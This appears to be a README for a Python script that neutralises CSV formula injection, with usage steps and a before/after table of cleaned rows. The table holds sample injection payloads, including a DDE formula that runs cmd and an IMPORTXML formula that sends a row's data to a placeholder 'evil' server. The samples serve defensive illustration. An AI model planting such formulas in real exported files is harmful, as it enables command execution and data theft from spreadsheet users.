 # Sanitize CSV Script README
## Operating environment python3
### Usage method
```
git clone https://github.com/zhizhi10/sanitize_csv.git
cd sanitize_csv
chmod +x sanitize_csv.py
### ./sanitize_csv.py -h
./sanitize_csv.py your_csv_file.csv -o /vol/xxx
```
The generated filename is clean_your_csv_file.csv

### Comparison Before and After Cleaning

| Data Before Cleaning                                                                                                         | Data After Cleaning                                                                                                                   |
|------------------------------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------------------------------------|
| UserId,BillToDate,ProjectName,Description,DurationMinutes                                                                    | "UserId","BillToDate","ProjectName","Description","DurationMinutes"                                                                   |
| "1","2017-07-25","Test Project","Flipped the jibbet","60"                                                                    | "1","2017-07-25","Test Project","Flipped the jibbet","60"                                                                             |
| 2,2017-07-25,Important Client,"Bop, dop, and giglip", 240                                                                    | "2","2017-07-25","Important Client","Bop, dop, and giglip"," 240"                                                                     |
| 2,2017-07-25,Important Client,"=2+5", 240                                                                                    | "2","2017-07-25","Important Client","'=2+5"," 240"                                                                                    |
| 2,2017-07-25,Important Client,"=2+5+cmd\| ' /C calc'!A0", 240                                                                | "2","2017-07-25","Important Client","'=2+5+\|' /C calc'!A0"," 240"                                                                    |
| 2,2017-07-25,Important Client,"=IMPORTXML(CONCAT(""http://some-server-with-log.evil?v="", CONCATENATE(A2:E2)), ""//a"")",240 | "2","2017-07-25","Important Client","'=IMPORTXML(CONCAT(""http://some-server-with-log.evil?v="", CONCATENATE(A2:E2)), ""//a"")","240" |
| =1+2";=1+2                                                                                                                   | "'=1+2"";=1+2"                                                                                                                        |

### warning

Due to the program’s inability to determine whether commas outside of quotation marks are separators, the cleaning result of `=1+2'" ;,=1+2` is `'=1+2'"" ;","'=1+2"`, not `'=1+2'"" ;,=1+2”`.
